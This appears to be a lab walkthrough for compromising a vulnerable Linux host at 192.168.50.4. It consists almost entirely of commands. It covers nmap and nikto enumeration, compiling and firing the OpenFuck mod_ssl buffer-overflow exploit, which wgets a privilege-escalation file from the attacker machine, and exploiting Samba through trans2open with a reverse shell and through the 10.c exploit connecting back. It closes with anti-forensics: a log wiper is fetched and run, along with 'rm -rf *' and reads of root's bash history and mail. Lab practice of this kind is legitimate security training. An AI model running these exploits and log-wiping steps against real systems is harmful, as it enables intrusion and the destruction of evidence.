 
### Network Configuration
```
--------------------         ------------------
|                  |---------|     Attacker   |
|      Router      |         |  192.168.50.6  |
|                  |         ------------------
|                  |         ------------------
|   192.168.50.1   |---------|     Victim     |
|                  |         |  192.168.50.4  |
--------------------         ------------------
```

1. Enumeration
```
nmap -n -sn -vvv 192.168.50.0-255
nmap -vvv -A -oA 192.168.50.4 192.168.50.4
nmap -T4 192.168.50.4 -sV -O  
nmap -T4 -O -sV -sS 192.168.50.4

nbtscan 192.168.50.4

enum4linux 192.168.50.4  

nikto -host 192.168.50.4 -port 80,443
```
2. Exploitation

Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow

https://www.exploit-db.com/exploits/764/
```
cp /usr/share/exploitdb/exploits/unix/remote/764.c ~/OpenFuck.c
```
> http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/
```
apt-get install libssl-dev

apt-get install libssl1.0-dev  <=  IMPORTANT
```
http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c

```
cp ~/Downloads/ptrace-kmod.c /var/www/html/
service apache2 start
```
"OpenFuck.c" =>  wget http://192.168.50.6/ptrace-kmod.c
```
gcc OpenFuck.c -o exploit -lcrypto
```
Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
```
./exploit | grep "1.3.20"

./exploit 0x6a 192.168.50.4 443
./exploit 0x6b 192.168.50.4 443 -c 50

id

cat /var/mail/root
```
-------
```
use auxiliary/scanner/smb/smb_version
```
(Samba 2.2.1a)

Google for “Samba 2.2.1a vulnerability”

https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open
```
use exploit/linux/samba/trans2open
set payload generic/shell_reverse_tcp
```
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution

https://www.exploit-db.com/exploits/10/
```
wget https://www.exploit-db.com/download/10.c

gcc 10.c -o samba

./samba

./samba -b 0 -c 192.168.50.6 192.168.50.4

uname -a && whoami
```
-------

Cleanup after pwning linux system

http://garage4hackers.com/showthread.php?t=6901

Victim
```
cd /var/log && grep -r 192.168.50.6 ./
```
Attacker

https://packetstormsecurity.com/files/31345/0x333shadow.tar.gz.html
```
cp ~/Downloads/0x333shadow.tar.gz ~
tar xvf 0x333shadow.tar.gz
cp 0x333shadow/0x333shadow.c /var/www/html/rmLogs.c
```
Victim
```
cd /tmp
wget 192.168.50.6/rmLogs.c
gcc rmLogs.c -o rmLogs -D Linux

./rmLogs

./rmLogs -a -i 192.168.50.6 -l 5 && rm -rf *

cd /var/log && grep -r 192.168.50.6 ./

locate .bash_history
cat /home/john/.bash_history
cat /root/.bash_history

uname -a && whoami
```
